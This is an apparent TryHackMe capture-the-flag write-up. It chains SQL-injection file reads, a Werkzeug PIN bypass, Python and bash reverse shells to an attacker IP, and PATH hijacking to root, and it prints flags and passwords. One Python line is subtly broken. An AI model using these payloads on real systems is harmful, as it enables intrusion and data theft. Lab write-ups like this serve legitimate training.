 # https://tryhackme.com/jr/surfingyetiiscomingtotown
+ What is the user flag?`THM{SQli_SsRF_2_WeRkZeuG_PiN_ExPloit}`
+ What is the root flag?
+ What is the yetikey4.txt flag?

## ENUMERATION PORT 8000
+ URL SQLInjection `http://10.10.35.168:8000/download?id=`
+ Using `sqlmap` database:
    ```
    [*] elfimages
    [*] information_schema
    [*] performance_schema
    ```
+ Dump `elfimages.elves`:
    ```
    +----+--------+------------------------------------------------+
    | id | url_id | url                                            |
    +----+--------+------------------------------------------------+
    | 1  | 1      | http://127.0.0.1:8000/static/imgs/mcblue1.svg  |
    | 2  | 2      | http://127.0.0.1:8000/static/imgs/mcblue2.svg  |
    | 3  | 3      | http://127.0.0.1:8000/static/imgs/mcblue3.svg  |
    | 4  | 4      | http://127.0.0.1:8000/static/imgs/suspects.png |
    +----+--------+------------------------------------------------+
    ```
+ current user: `mcskidy@localhost`
+ hostname: `proddb`

# EXPLOIT
+ Trying to by pass PIN for werkerzeug 3.0.0 console.
+ Looting The File using SQL Injection File Export (LFI / SSRF):
    - http://10.10.211.16:8000/download?id=' UNION ALL SELECT 'file:///proc/sys/kernel/random/boot_id
    - http://10.10.211.16:8000/download?id=' UNION ALL SELECT 'file:///sys/class/net/eth0/address 
    `02:e7:a8:eb:9a:87`
    - http://10.10.211.16:8000/download?id=' UNION ALL SELECT 'file:///etc/machine-id `aee6189caee449718070b58132f2e4ba`
    - http://10.10.211.16:8000/download?id=' UNION ALL SELECT 'file:///proc/self/cgroup

    ```bash


    $python -c "print(0x02e7a8eb9a87)"   
    python -c 'x = "".join("02:01:42:ff:bf:bb".split(":")); print(hex(x))'
    3193994713735
    $python gen_machine_id.py 
    b'aee6189caee449718070b58132f2e4ba'
    $python werkzeug-debug-console-bypass/werkzeug-pin-bypass.py 
    Pin: 664-214-737
    ```

### PRIVILEGES ESCALATION
+ Python Reverse Shell 
    ```python
    python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.37.160",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
    ```
    + inject application by adding python file os.py
        - add this line to reverse shell os.py
        ```python
        #!/usr/bin/python3
        import os
        os.system('/bin/bash -c "bash -i >& /dev/tcp/10.4.37.160/1234 0>&1"')
        ```

    + Look at log Git :
        ```bash
        mcskidy@proddb:~/app$ git diff e9855c8a10cb97c287759f498c3314912b7f4713
        diff --git a/app.py b/app.py
        index 5f5ff6e..875cbb8 100644
        --- a/app.py
        +++ b/app.py
        @@ -10,7 +10,7 @@ app = Flask(__name__, static_url_path='/static')
        # MySQL configuration
        app.config['MYSQL_HOST'] = 'localhost'
        app.config['MYSQL_USER'] = 'mcskidy'
        -app.config['MYSQL_PASSWORD'] = 'F453TgvhALjZ'
        +app.config['MYSQL_PASSWORD'] = 'fSXT8582GcMLmSt6'
        app.config['MYSQL_DB'] = 'elfimages'
        mysql = MySQL(app)
        
        @@ -18,5 +18,32 @@ mysql = MySQL(app)
        def index():
            return render_template("index.html")
        
        +@app.route("/download")
        +def download():
        +    file_id = request.args.get('id','')
        +
        +    if file_id!='':
        +        cur = mysql.connection.cursor()
        ```
    + Add file with `echo 'bash' > /home/mcskidy/[` and then `chmod +x /home/mcskidy/[`
    + After that run `sudo /usr/bin/bash /opt/check.sh`
    + Got root priviledge
    + Print all txt file on /root         
        ```bash
        root@proddb:/home/mcskidy# cat /root/*.txt
        THM{BaNDiT_YeTi_Lik3s_PATH_HijacKing}
        4-3f$FEBwD6AoqnyLjJ!!Hk4tc*V6w$UuK#evLWkBp
        ```
